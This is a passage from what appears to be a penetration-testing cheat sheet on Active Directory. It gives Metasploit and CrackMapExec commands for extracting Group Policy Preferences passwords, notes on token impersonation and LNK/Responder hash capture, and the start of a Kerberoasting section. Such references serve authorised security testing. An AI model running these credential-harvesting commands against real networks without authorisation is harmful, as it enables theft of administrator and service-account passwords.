 ##### Using Metasploit
```bash
msfconsole
use auxiliary/scanner/smb/smb_enum_gpp
set RHOSTS <target-range>
set SMBDomain <domain>
set SMBUser <username>
set SMBPass <password>
run
```

##### CrackMapExec GPP
```bash
# Enumerate GPP
crackmapexec smb <target-ip> -u username -p password --gpp-passwords

# With hash
crackmapexec smb <target-ip> -u username -H <HASH> --gpp-passwords
```

IMPORTANT NOTES:
1. Token Impersonation:
   - Requires local admin rights
   - Delegated tokens provide more access than impersonated tokens
   - Clean up created accounts after testing

2. LNK File Attacks:
   - Place files in commonly accessed shares
   - Monitor Responder for incoming hashes
   - Clean up LNK files after testing

3. GPP Attacks:
   - Legacy attack but still relevant
   - Check for old Group Policy objects
   - Look for both current and historical GPP passwords
   - Common in older domains that were upgraded
   - Can find passwords for:
     * Local Administrator accounts
     * Service accounts
     * Scheduled tasks
     * Drive mappings

Best Practices:
- Document all created files and accounts
- Remove artifacts after testing
- Note that some attacks may be logged
- Test in small scope before network-wide
- Consider operational security impact

#### Advanced Post-Domain Compromise Techniques

##### Kerberoasting
Prerequisites:
- Domain user account (any level)
- Network access to DC
- Service Principal Names (SPNs) exist
